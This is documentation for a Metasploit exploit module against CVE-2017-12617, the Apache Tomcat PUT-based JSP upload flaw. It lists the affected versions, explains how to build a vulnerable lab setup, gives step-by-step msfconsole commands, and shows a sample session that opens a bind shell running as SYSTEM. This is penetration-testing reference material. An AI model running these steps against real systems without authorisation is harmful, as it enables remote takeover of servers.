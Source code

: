 ## Description

This module uses a PUT request bypass to upload a jsp shell to a vulnerable Apache Tomcat configuration.

## Vulnerable Application
	
When running Apache Tomcat versions 9.0.0.M1 to 9.0.0, 8.5.0 to 8.5.22, 8.0.0.RC1 to 8.0.46 and 7.0.0 to 7.0.81 with HTTP PUTs enabled (e.g. via setting the readonly initialization parameter of the Default servlet to false) it was possible to upload a JSP file to the server via a specially crafted request. This JSP could then be requested and any code it contained would be executed by the server. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-12617

To set up a vulnerable installation:
1. Download and install an affected version of Apache Tomcat.
2. Download and install Java. [Choose an appropriate version](http://tomcat.apache.org/whichversion.html) based on the Apache Tomcat version you downloaded.
3. In conf directory of Apache Tomcat, edit the web.xml file and set the "readonly" parameter to false for the default servlet.
4. Restart the Tomcat service.


## Verification Steps

1. Do: ```use exploit/multi/http/tomcat_jsp_upload_bypass```
1. Do: ```set payload java/jsp_shell_bind_tcp```
2. Do: ```set RHOST [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```check```
5. It should be reported as vulnerable
6. Do: ```run```
7. You should get a shell

## Scenarios

```
msf > use exploit/multi/http/tomcat_jsp_upload_bypass 
msf exploit(tomcat_jsp_upload_bypass) > set payload java/jsp_shell_bind_tcp 
payload => java/jsp_shell_bind_tcp
msf exploit(tomcat_jsp_upload_bypass) > set RHOST 10.10.40.93
RHOST => 10.10.40.93
msf exploit(tomcat_jsp_upload_bypass) > set RPORT 8080
RPORT => 8080
msf exploit(tomcat_jsp_upload_bypass) > check
[+] 10.10.40.93:8080 The target is vulnerable.
msf exploit(tomcat_jsp_upload_bypass) > run

[*] Started bind handler
[*] Uploading payload...
[*] Payload executed!
[*] Command shell session 1 opened (10.10.230.230:39979 -> 10.10.40.93:4444) at 2017-10-11 07:43:08 -0400

Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files\apache-tomcat-7.0.81>whoami
whoami
nt authority\system

```
